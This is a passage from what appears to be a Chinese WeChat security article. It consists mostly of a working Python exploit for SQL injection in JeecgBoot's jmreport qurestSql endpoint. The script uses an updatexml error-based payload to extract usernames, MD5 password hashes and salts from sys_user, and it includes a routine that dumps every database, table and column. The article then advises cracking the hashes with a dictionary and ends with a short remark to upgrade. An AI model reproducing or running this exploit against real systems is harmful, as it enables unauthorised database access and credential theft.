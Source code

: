     def send_req(url, sql_str):    """    发送POC数据包请求    """    header = {        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69',        'Content-Type':'application/json'    }    # 构建JSON数据    data = {        "apiSelectId": "1316997232402231298",        "id": "1' or '%1%' like (updatexml(0x3a,concat(0x23,(" + sql_str + ")),0x23)) or '%%' like '"    }  
        try:        requests.packages.urllib3.disable_warnings()        response = requests.post(url=url,headers=header,data=json.dumps(data),verify=False,timeout=3)        if response.status_code == 200 and "XPATH syntax error" in response.text:            return extract_content(response.text)        time.sleep(1)    except Exception as e:        print(e)        pass  
    def sensitive_data(url):    """    获取敏感数据        """    count = send_req(url,"select count(*) from sys_user")    for i in range(0,int(count)):        username = send_req(url,"select username from sys_user ORDER BY id LIMIT " + str(i) + ", 1")        password = send_req(url,"select password from sys_user ORDER BY id LIMIT " + str(i) + ", 1")        salt = send_req(url,"select salt from sys_user ORDER BY id LIMIT " + str(i) + ", 1")        result = "用户名：" + username + "\tmd5密码盐:" + salt + "\t密码md5：" + password        print(result)        write_result(result)  
      
    def get_all(url):    """    一键拖库    """    # 获取数据库列表    databases_count = send_req(url,"select count(*) from information_schema.schemata")    databases = []    print("数据库列表：")    for i in range(0,int(databases_count)):        schema_name = send_req(url,"select schema_name from information_schema.schemata ORDER BY schema_name LIMIT %d, 1" % (i))        databases.append(schema_name)        print(schema_name)            # 获取数据库表名    print("数据库表：")       schema_dic = {} # 存储数据库名和表名    for database in databases:        tables = []        print("--------------------------数据库{}中的表--------------------------".format(database))        tables_count = send_req(url,"select count(*) from information_schema.tables where table_schema = '%s'" % (database))        for i in range(0,int(tables_count)):            table_name = send_req(url,"select table_name from information_schema.tables where table_schema = '%s' ORDER BY table_name LIMIT %d,1" % (database,i))            tables.append(table_name)            print(table_name)        schema_dic[database] = tables                # 遍历字典的键值对,获取表的列信息    for database, tables in schema_dic.items():        for table in tables:            print("--------------------------%s库 %s表的列名：--------------------------" % (database,table))            tables_count = send_req(url,"select count(*) from information_schema.columns where table_schema = '{}' and table_name = '{}'".format(database,table))            for i in range(0,int(tables_count)):                column_name = send_req(url,"select column_name from information_schema.columns where table_schema = '{}' and table_name = '{}' ORDER BY column_name LIMIT {}, 1".format(database,table,i))                print(column_name)  
    if __name__ == '__main__':    url = "http://localhost:8080/jeecg-boot/jmreport/qurestSql"    # 获取用户名密码    sensitive_data(url)     # 一键拖库    # get_all(url)  
      
    

  

执行脚本获取到用户名密码之后使用字典解密md5即可使用  

![]()

注意：脚本执行过程中后端日志会疯狂报错  

![]()

 **九** 、漏洞修复

升级到新版本

预览时标签不可点

微信扫一扫  
关注该公众号
